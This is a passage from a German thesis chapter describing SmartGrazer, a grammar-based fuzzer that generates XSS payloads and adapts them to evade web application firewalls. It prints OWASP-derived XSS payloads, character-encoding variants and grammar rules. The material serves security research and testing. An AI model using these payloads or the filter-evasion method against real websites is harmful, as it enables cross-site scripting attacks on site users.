Die Implementierung wurde auf den Arbeitstitel ``SmartGrazer'' getauft und steht für ``\textbf{Smart} \textbf{Gra}mmatical Fuz\textbf{zer}''. Als Eingabe bekommt SmartGrazer eine Menge von Elementen, die als Basisdaten für die Generierung dienen. Diese Daten werden SmartGrazer zunächst in Form von Konfigurationsdateien bereitgestellt. 

Nach der Initialisierung generiert SmartGrazer unter Verwendung von Konstruktionsregeln einen Payload und sendet diesen an die Webseite. Nachdem die Antwort der Webseite gespeichert worden ist, wird diese auf den gesendeten Payload durchsucht. Das Speichern der Antwort ermöglicht dem Tester eine spätere Analyse des gefundenen Payloads auf dessen Funktionsfähigkeit. In der Analyse-Phase wird ermittelt, ob Elemente des Payloads entfernt oder verändert worden sind. Anschließend werden die Wahrscheinlichkeiten, dass ein verändertes Element erneut gewählt wird, für alle veränderten Elemente des zuvor verwendeten Payloads angepasst.

Durch die Anpassung der Auswahlwahrscheinlichkeit kann zielgerichtet auf vorhandene \acp{WAF} reagiert werden. Wird beispielsweise nur das doppelte Anführungszeichen bei Benutzereingaben gefiltert, kann SmartGrazer dies bei der Analyse der Antwort erkennen und zukünftig bei der Generierung auf andere Zeichen zurückgreifen. 

Dieser Ablauf wiederholt sich so oft, bis ein valider Payload gefunden wurde. Jede Wiederholung dieses Ablaufs wird als Generierungsrunde bezeichnet.

Eine sehr vereinfachte Sicht auf die Implementierung ist in Abbildung \ref{fig:SmartGrazerBirdView} dargestellt.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerBirdView}
	\caption{Konzept: Grundsätzliche Vorgehensweise von SmartGrazer}
	\label{fig:SmartGrazerBirdView}
\end{figure}


\subsection{Definition: Payload-Elemente}
Ein Payload-Element kann entweder eine Zeichenkette (Text oder Schlüsselwort) oder ein Zeichen als Bestandteil von HTML oder JavaScript sein.

Während der Implementierung von SmartGrazer werden Elemente im Dezimalformat gespeichert und geladen. Dieser Wert ist eindeutig und wird während der Ausführung des Programms als Schlüssel (``key'') zur Identifizierung von Elementen verwendet. Dies hat den Vorteil, dass Steuerzeichen, wie beispielsweise das Tabulator-Zeichen  ``\lstinline[language=html]!\t!'', problemlos in Konfigurationsdateien gespeichert werden können. Das Zeichen (``value'') wird bei der Initialisierung des Elements aus dem Schlüssel errechnet.
Eine weitere Eigenschaft eines Payload-Elements bestimmt den Verwendungszweck (``usage''), dem das Element zugewiesen werden kann. Dementsprechend kann sowohl ein Leerzeichen als auch ein Tabulator-Zeichen als Weißraum in Payloads verwendet werden. Einigen Elementen können auch mehrere Verwendungen zugesprochen werden.
Beispielsweise wird das Plus-Zeichen ``+'' im Rahmen der URL-Kodierung als Leerzeichen  verwendet und gleichzeitig als Rechenoperand im JavaScript-Kontext.

%Ein Beispiel wäre das Plus-Zeichen, welche als ein Leerzeichen in der \ac{URL}-Kodierung oder für Rechenoperationen im JavaScript-Kontext verwendet werden können.

Um die Generatoren untereinander austauschen zu können, werden alle Payloads so generiert, dass diese in ihre vorhandenen Elemente aufgeteilt werden können.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerElementDefinition}
	\caption{Definition: Payload-Elemente als Objekte}
	\label{fig:element-definition}
\end{figure}

In den folgenden Kapiteln wird erläutert, wie die einzelnen Phasen (Generierung, Kommunikation, Analyse und Anpassung) realisiert worden sind. Im Anschluss daran werden in Kapitel \ref{sec:implementation_misc} weitere Details der fertigen Implementierung vorgestellt. % (✔
\section{Generierungsphase}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.75\textwidth]{contents/images/SmartGrazerSectionGenerate}
	\caption{SmartGrazer: Auszug Generierungsphase}
	\label{fig:SmartGrazerSectionGenerate}
\end{figure}

Dieses Kapitel erläutert die in Abbildung \ref{fig:SmartGrazerBirdView} blau gekennzeichnete ``generate''-Phase. Als Generatoren sind zwei Ansätze implementiert worden: Zum Einen wird ein kontextfreier Payload-Generator verwendet, auf dessen Generierungsprozess kein Einfluss genommen werden kann und zum Anderen wird ein kontextbezogener Generator implementiert, dessen Generierungsprozess von der Reaktion der Webseite abhängt.

Es wird im Folgenden der kontextfreie Generator ``Dharma'' vorgestellt, der im späteren Verlauf durch eine \gls{Adapter}-Klasse von SmartGrazer verwendet werden kann, um Payloads zu generieren. Hierzu wird für Dharma eine gesonderte Grammatikdefinition definiert, sodass die generierten Payloads von SmartGrazer interpretiert werden können.

\FloatBarrier

%%%%%%%%%% Dharma

\subsection{Dharma als kontextfreier Payload Generator}\label{Dharma}

Zunächst wird anhand eines Beispiels erklärt, wie Definitionsdateien für Grammatiken erstellt und von Dharma interpretiert werden. Anschließend wird die erstellte XSS-Grammatikdefinition für Dharma anhand von Beispielen näher betrachtet und erklärt.

\subsubsection{Definitionen von Grammatiken}

Wie bereits Kapitel \ref{ssec:grammar-based-approaches} erwähnt, gibt es bereits mehrere Implementierungen von kontextfreien Payload-Generatoren. Dharma ist ein Open Source Projekt von Mozilla und wurde für das Testen von WebAPIs entwickelt. Diese werden oft in Form einer \ac{IDL} definiert. Eine IDL stellt im Grunde eine Grammatik dar. Als Referenz zum kontextbezogenen Ansatz dieser Arbeit wurde für Dharma eine kontextfreie \ac{XSS}-Grammatik definiert und getestet. Um eine Wissensgrundlage zu schaffen, wird zunächst die Grundfunktion einer Definitionsdatei erklärt.

\newpage
\subsubsection{Ein Minimalbeispiel: minimal.dg}

Der Quelltextauszug \ref{lst:minimal.dg} stellt ein Minimalbeispiel einer Dharma-Grammatik dar. Die hier gezeigte Grammatik veranschaulicht eine Einstiegsregel, die anschließend zwei möglichen Pfaden folgen kann.

\begin{lstlisting}[caption={Dharma: Grundaufbau einer Grammatikdefinition},label=lst:minimal.dg]
%section% := value

rule :=
hello world
+hello+ hello world

hello :=
hello
+hello+ hello

%section% := variance
main :=
+rule+
\end{lstlisting}

In der letzten Zeile der oben dargestellten Definitionsdatei wird die auszuführende Regel der Grammatik bestimmt. Regeln werden durch die Zuweisung ``:=''\footnote{
Leerzeichen sind nur vor und nach dem Definitionssymbol ``:='' erlaubt. Ansonsten kann Dharma die Definitionsdatei nicht interpretieren.} bestimmt und mittels ``+Regelname+'' aufgerufen. In Beispiel \ref{lst:minimal.dg} ist die Einstiegsregel \textbf{rule}. Wird anschließend Zeile vier ausgewählt, gibt Dharma ``hello world'' aus (Pfad 1). Im anderen Fall wird das Wort ``hello'' mindestens zwei Mal ausgeben (Pfad 2).

\subsubsection{Kontextfreie XSS-Grammatik}

Viele Arbeiten (z.B. \cite{Bozic}, \cite{Simos2014}, \cite{Wies2014} oder \cite{Duchene2014}) aus dem Related Work Kapitel (siehe Kapitel \ref{ssec:relatedWork}) verwendeten entweder eine \gls{BNF}-Definition oder eine Baumdarstellung der \ac{XSS}-Grammatik für die Generierung der Payloads. Diese Definitionen ließen sich relativ einfach auf die Grammatikdefinitionen von Dharma übertragen. Zusätzlich wurden einige Bestandteile als eigene Regel festgelegt. 

\begin{lstlisting}[caption={Dharma: Auszug aus der XSS-Grammatikdefinition (xss.dg)},label=lst:xss.dg]
%section% := value

payload :=
+attack+
+outbreak++attack+

attack :=
+attacks_js+
+attacks_html+

attacks_js := ...

attacks_html := ... 

outbreak :=
+outbreak+...
...

%section% := variance
main :=
+payload+
\end{lstlisting}

Die gekürzte Version der Grammatikdefintion (Quelltext \ref{lst:xss.dg}) zeigt, dass die Angriffe aus bis zu drei Komponenten bestehen. Payloads können entweder im JavaScript- oder im HTML-Kontext eingeschleust werden. Zusätzlich wird versucht, mit Voranstellen eines Outbreak-Befehls einen Wechsel in den JavaScript-Kontext zu erzielen. Durch das Voranstellen eines erneuten ``+outbreak+''-Befehls ist es Dharma möglich, mehrere Durchläufe der Outbreak-Regel zu generieren.

\subsubsection{Gruppierung der Payload-Elemente}\label{ssec:element-classification}
Um Payloads in eine Grammatikdefinition umzuwandeln, ist es notwendig, deren Elemente in Gruppen zusammenzufassen. Zunächst werden HTML-Tags und HTML-Events zusammengefasst, sodass die Regeldefinitionen ``tag\_html'' und ``event'' entstehen. Im nächsten Schritt wurden alle Zeichen identifiziert, die von Browsern als Leerraum interpretiert werden können. Hierzu zählen beispielsweise \lstinline[language=html]!``&nbsp;'', `` '', ``\n'', ``\r\n''! oder \lstinline[language=html]!``\t''!. Ein großer Nachteil der Dharma-Grammatikdefinition besteht darin, dass Steuerzeichen nicht direkt in die Datei geschrieben werden können und es keine Möglichkeit gibt, diese in eine andere Form zu kodieren. Daher werden alle Sonderzeichen in der Grammatikdefinition als kodierte \ac{URL} abgespeichert.

Elemente, die nicht ausgetauscht werden dürfen, da diese eine spezielle Funktion im Payload haben, werden bei der Transformation in die Grammatikdefinition als Zeichenkette übernommen. Ebenso werden Elemente mit nur einem möglichen Zeichen, wie zum Beispiel ``='', als Zeichenkette in die Grammatikdefinition übernommen.

\begin{lstlisting}[caption={Dharma: Gruppierung der Payload-Elemente},label=lst:xss.dg-transformation]
...
tag_html :=
a
abbr
acronym
...

event :=
onclick
oncontextmenu
ondblclick
...	

space :=
%0A
%07
%0C
%0B
%2F
%09
%26nbsp%3B
+
...
\end{lstlisting}

Grammatiksequenzen, die dem Kontextwechsel dienen, werden in der Definitionsregel ``outbreak'' zusammengefasst. Alle anderen Sequenzen werden abhängig von ihrem Kontext entweder in ``attacks\_js'' oder ``attacks\_html'' übernommen.

Der eigentliche JavaScript-Code, der vom Browser ausgeführt werden soll, wird ebenfalls in eine eigene Regel ``payload\_attack'' übernommen.

\subsubsection{Auswahl der Payloads und Transformation ins Dharma-Format}
Als Quelle für geeignete Angriffsmuster wird in dieser Ausarbeitung das OWASP-Cheat-Sheet verwendet. Dieses bietet eine breite Auswahl an Payloads, die in Applikationen bereits erfolgreich getestet worden sind. Im Anhang unter Quellcode \ref{lst:payload-list} wurden einige Beispiele gewählt, die zum Einen gut verallgemeinert werden können und zum Anderen möglichst viele aktuelle Browser-Versionen abdecken. Die Liste der verwendeten Payloads kann in Zukunft ohne weitere Anpassungen erweitert werden.

Beispielhaft wird an einigen Einträgen in  Quelltextbeispiel \ref{lst:listofpayloadsoriginal} gezeigt, wie die Umwandlung vorgenommen wurde.

\begin{lstlisting}[caption={Dharma: Umwandlung gegebener Payloads - Teil 1},label=lst:listofpayloadsoriginal]
<img src="javascript:alert('xss');">
<img """><script>alert(1)</script>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<img src=# onmouseover="alert(1)">
<img src= onmouseover="alert(1)">
<img src=/ onerror="alert(1)"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099 #0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108& #0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083& #0000083&#0000039&#0000041">
\end{lstlisting}

Zunächst wird der JavaScript-Quelltext identifiziert und durch die Regel +payload\_attack+ ersetzt. Einige Verschleierungstechniken fallen bei der Grammatikdefinition weg, da diese in anderen Regeln definiert werden.  Anschließend werden alle Event-Attribute durch die Regel +event+ ersetzt, sodass sich die Payloads wie in Quelltextbeispiel \ref{lst:listofchangedpayloads} darstellen.

\begin{lstlisting}[caption={Dharma: Umwandlung gegebener Payloads - Teil 2},label=lst:listofchangedpayloads]
<img src="+payload_attack+;">
<img """><script>+payload_attack+</script>
<IMG SRC=javascript:+payload_attack+>
<img src=# +event+="+payload_attack+">
<img src= +event+="+payload_attack+">
<img src=/ onerror="+payload_attack+"></img>
<img src=x onerror="+payload_attack+">
\end{lstlisting}

Die onerror-Events der Payloads aus den Zeilen sechs und sieben wurden bewusst nicht ersetzt, da hier durch den Attributwert für ``src'' ein Fehler provoziert wird. Der Payload in Zeile zwei verwendet ein img-Tag in Kombination mit drei aufeinander folgenden doppelten Anführungszeichen. Der Zweck dieses img-Tags besteht darin, den HTML-Kontext abzuschließen. Dieser Teil des Payloads wird daher als Ausbruchssequenz identifiziert. Weiterhin können mehrere Werte verwendet werden, um einen Fehler bei img-Tags auszulösen. 

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/DharmaPayloadConstructionExample.jpg}
	\caption{Dharma: Aufbau eines generierten Payloads}
	\label{fig:dharmaPayloadConstructionExample}
\end{figure}

\FloatBarrier
Diese werden in eine neue Regel ``+src\_value+'' übernommen\footnote{Die komplette Grammatikdefinition ist auf der GitHub-Projektseite von Dharma verfügbar \cite{Borgardt2017}.}.

Zum Schluss werden alle Sonder- sowie Leerzeichen durch die entsprechenden Regeln ersetzt. Die Generierung eines Payloads kann zur Verdeutlichung als Baumstruktur dargestellt werden. Abbildung \ref{fig:dharmaPayloadConstructionExample} veranschaulicht den abgearbeiteten Baumpfad von Dharma. Grau gestrichelten Pfeile symbolisieren aufeinanderfolgende Regeln, die nacheinander abgearbeitet werden. Volle Pfeile beschreiben eine direkte bzw. zufällige Auswahl von Dharma.

\subsubsection{Fuzzing/Mutation einzelner Elemente}

Da es in der Dharma-Implementierung nicht vorgesehen ist, eigene Methoden während der Generierung auszuführen, müssen alle Alternativdarstellungen für Zeichen in den Regeldefinitionen aufgeführt werden.

Ein Beispiel für verschiedene Zeichenkodierungen ist in Quelltext \ref{lst:xss.dg-<} aufgeführt. Einige Varianten der Zeichen können mit vorangestellten Nullen ausgedehnt werden. Daher ist die dazugehörige Regel ``zero'' ebenfalls aufgeführt.

\begin{lstlisting}[caption={Dharma: Regeldefinition des Zeichens ``<''},label=lst:xss.dg-<]
...
bracket_lt :=
<
\x3c
\x3C
\u003c
\u003C
%26%23x3c
%26%23x+zero+3c
%26lt
%26LT
%26LT%3B
%26lt%3B
%3C
&#60
&#+zero+60
...
zero :=
0
0+zero+
00+zero+
...
\end{lstlisting}


\subsubsection{Aufruf von Dharma}

Mit dem Befehl \textbf{\lstinline[language=bash]!python dharma.py -grammars grammars/xss.dg -count 1!} wird ein Payload vom Dharma-Generator unter Verwendung der oben beschriebenen Grammatikdefinition generiert. 

\begin{lstlisting}[caption={Dharma: Beispiel für einen generierten Payload},label=lst:DharmaXssOutput] 
\x3cimg+`\``&#0000062\u003cstyle+spacetype="text/css\'%26LTbody
{background:url("javascript:promt(\"dharmam')\')}\u003C/style>
\end{lstlisting}


Durch die kontextfreie Generierung werden in den meisten Fällen die Elemente, wie zum Beispiel Anführungszeichen, nicht paarweise gesetzt. Im Fall der generierten Payloads aus Quelltextbeispiel \ref{lst:DharmaXssOutput} wurde jeder Payload mit mehreren verschiedenen Anführungszeichen versehen. Dies hat zur Folge, dass der Browser den Quelltext nicht richtig interpretieren und somit den Quellcode nicht ausführen kann.

Mit der Abänderung von Konstruktionsregeln kann eine paarweise Generierung von Elementen erreicht werden. Im Quelltextbeispiel \ref{lst:dharmaPairwiseWorkaround} ist exemplarisch dargestellt, wie die Definitionsregeln aufgebaut werden müssen, um eine paarweise Generierung sicherzustellen. Ein solches Vorgehen würde die Grammatikdefinition aufblähen, da für jedes paarweise Zeichen eine neue Regel gepflegt werden müsste. Im Zuge dieser Arbeit wurde diese Eigenschaft des Dharma-Generators beibehalten, da hierdurch kontextfreie Payloads erstellt werden. 

\begin{lstlisting}[caption={Dharma: Beispiel einer paarweisen XSS-Grammatikdefinition},label=lst:dharmaPairwiseWorkaround]
%section% := value

payload :=
+attack+

attack :=
<div>+inner+</div>
<section>+inner+</section>

inner := ...

%section% := variance
main :=
+payload+
\end{lstlisting}

\paragraph{Hinweis:} Die verwendete Grammatikdefinition in dieser Arbeit nimmt fehlerhaften JavaScript-Code bei der Generierung mit Dharma in Kauf, weil die Transformation der aktuellen Grammatikdefinition in ein paarweise generierendes Äquivalent den zeitlichen Rahmen dieser Arbeit sprengen würde.

%%%%%%%%%% Smarty
\subsection{SmartGrazer: Kontextbasierter Generator ``Smarty''}\label{Smarty}

Der kontextbasierte Generator von SmartGrazer wird im folgenden als ``Smarty'' bezeichnet. Anders als bei Dharma werden für Smarty vordefinierte Payload-Grammatiken bereitgestellt. Diese enthalten keine Schleifen, sodass keine Mehrfachausführung einer Outbreak-Sequenz möglich ist. Smarty wählt aus einem Pool vordefinierter Payload-Muster ein zufälliges aus und befüllt dieses mit Elementen. Die definierten Payloads entsprechen hierbei im Grunde der selben Menge wie aus dem Kapitel \ref{Dharma}.

Als Vergleich zur beispielhaften Abbildung \ref{fig:dharmaPayloadConstructionExample} ist die selbe Payload-Definition im Smarty-Format in Abbildung \ref{fig:smartyPayloadConstructionExample} abgebildet.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerPayloadConstructionExample}
	\caption{Smarty: Aufbau eines generierten Payloads}
	\label{fig:smartyPayloadConstructionExample}
\end{figure}

\FloatBarrier
Smarty wurde mit einem Zwischenspeicher implementiert, sodass dem Generator mitgeteilt werden kann, welche Elemente zwar zufällig gewählt, aber paarweise zugewiesen werden sollen. In dem gezeigten Beispiel wurde definiert, dass die Anführungszeichen der ``ATTACK''-Sequenz immer gleich belegt werden sollen. Hierzu wird an das Schlüsselwort ``QUOTE'' eine generische Variable (hier: ``x'') mit einem vorangestellten Doppelpunkt angehängt. Das gewählte Zeichen für ``QUOTE'' in der OUTBREAK-Sequenz ist ohne Variable angeführt und kann somit jedes beliebige Element als Anführungszeichen enthalten.

\subsubsection{Payload Generierung}

Ein Payload wird zunächst als Angriffsmuster in der Konfigurationsdatei ``config/smarty/grammars.json'' definiert. Ähnlich wie bei der Dharma-Notation werden hier Elemente ebenfalls zu Gruppen zusammengefasst. In Abbildung \ref{lst:grammar-example} ist ein Angriffsmuster beispielhaft dargestellt. 

\begin{lstlisting}[caption={SmartGrazer: Auszug aus der Grammatik-Konfigurationsdatei},label=lst:grammar-example]
...
[
"OUTBREAK",
"OPENPOINTEDBRACKET",
"TAG_SCRIPT",
"CLOSEPOINTEDBRACKET",
"SPACE",
"ATTACK",
"OPENPOINTEDBRACKET",
"SLASH",
"TAG_SCRIPT",
"CLOSEPOINTEDBRACKET"
], ...
\end{lstlisting}

Schlüsselwörter, wie zum Beispiel ``OUTBREAK'' oder ``ATTACK'', werden während der Generierung in Objekte umgerechnet und deren Elemente in die Grammatik übernommen. Die dazugehörigen Definitionen befinden sich in den Dateien ``config/smarty/outbreaks.json'' und ``config/smarty/attacks.json''. Zum jetzigen Stand steht ein Schlüsselwort für eine Elementrepräsentation. Ein wiederholtes Anfügen von Outbreak-Objekten, wie bei Dharma, wurde nicht implementiert.

\subsubsection{Zeichen-Mutation}\label{ssec:payload-generation-mutation}

Ein Element innerhalb eines Payload wird bei dessen Ziehung mutiert, wenn dies für das Element in der Konfiguration erlaubt wurde. Diese Mutation gilt einmalig für den Payload und wird nach der Analyse der Antwort wieder verworfen. Hierdurch wird sicher gestellt, dass die Anzahl an gespeicherten Elemente konstant bleibt und nicht durch jede Mutation ein neues Element hinzukommt. Im Falle des Elements ``javascript'' sind zwei Mutations-Klassen implementiert:

\begin{description}
	\item[Uppy] Diese Mutationsklasse ändert die Groß- bzw. Kleinschreibung von Buchstaben in Zeichenketten. Beispiel: ``JaVaSCriPt''
	\item[Spacey] Diese Mutationsklasse fügt an einer zufälligen Stelle der Zeichenkette ein Leerzeichen ein. Beispiel: ``javas cript''
\end{description}
 % (✔
\section{Kommunikationsphase}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.75\textwidth]{contents/images/SmartGrazerSectionCommunicate}
	\caption{SmartGrazer: Auszug Kommunikationsphase}
	\label{fig:SmartGrazer-sectionCommunicate}
\end{figure}

Die Kommunikation zwischen SmartGrazer und der Webseite findet über \ac{HTTP} bzw. über \ac{HTTPS} statt. In Konfigurationsdateien kann für jeden Test eine Konfiguration hinterlegt werden. Implementiert wurden die \ac{HTTP}-Methoden \gls{GET} und \gls{POST}, sowie das Übermitteln des Payloads über Cookies.

